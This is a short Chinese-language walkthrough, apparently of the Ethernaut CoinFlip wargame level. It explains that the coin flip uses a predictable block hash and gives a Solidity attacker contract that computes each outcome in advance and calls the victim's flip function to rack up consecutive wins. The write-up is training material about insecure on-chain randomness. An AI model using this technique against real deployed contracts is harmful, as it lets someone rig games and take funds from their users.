 ### CoinFilp
因為這個區塊號可以很容易地獲取，我們還可以產生拋硬幣的結果，並將這個結果提供給 `flip` 函數以獲得正確的猜測和增量 `consecutiveWins`。
我們之所以能夠做到這一點，是因為網路的阻塞時間夠長，因此 `block.number` 在函數呼叫之間不會改變。

我們將使用幾乎相同的硬幣翻轉生成程式碼編寫一個 Solidity 合約（在 Remix IDE 上），`CoinfileAttack` 並在部署的實例位址處呼叫 `flip` 給定 `CoinFlip` 合約，並已確定翻轉結果：
- Ans:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./coinfilp.sol";

contract coinfileAttack {

    CoinFlip public victimContract;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _victimContractAddr) public {
        victimContract = CoinFlip(_victimContractAddr);
    }

    function filp() public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number-1));
        uint256 coinFilp = uint256(blockValue/FACTOR);
        bool side = coinFilp == 1 ? true : false;

        victimContract.flip(side);
    }
    
}
```
```
await contract.consecutiveWins()
```

